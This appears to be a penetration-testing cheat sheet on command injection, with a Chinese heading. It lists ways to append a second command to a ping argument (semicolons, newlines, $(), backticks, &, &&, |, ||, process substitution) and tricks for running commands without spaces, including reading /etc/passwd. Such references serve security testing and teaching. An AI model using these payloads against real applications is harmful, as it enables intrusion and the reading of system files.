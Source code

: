 # 命令注入

## 1) 分号
```
ping -c1 127.0.0.1 ; echo injection
```

## 2) New line
```
ping -c1 127.0.0.1 %0a echo injection
```

## 3) $()
```
ping -c1 127.0.0.1 $(echo 1 > /tmp/test)
```

## 4) ``
```
ping -c1 127.0.0.1 `echo 1 > /tmp/test`
```

## 5) &
```
ping -c1 127.0.0.1 %26 echo injection # %26 -> &
```

## 6) && - AND
First part need to success
```
ping -c1 127.0.0.1 %26%26 echo injection # %26 -> &
```

## 7) |
```
ping -c1 127.0.0.1 | echo injection
```

## 8) || - OR
First part need to fail
```
ping -c1 || echo injection
```

## 9) Process substitution
```
ping -c 127.0.0.1 <(echo 1 > /tmp/test)
```

# Commands without spaces

## 1) Simple
```
cat</etc/passwd
```

## 2) IFS
```
ls${IFS}-la
```

## 3) {}
```
{ls,-la}
```
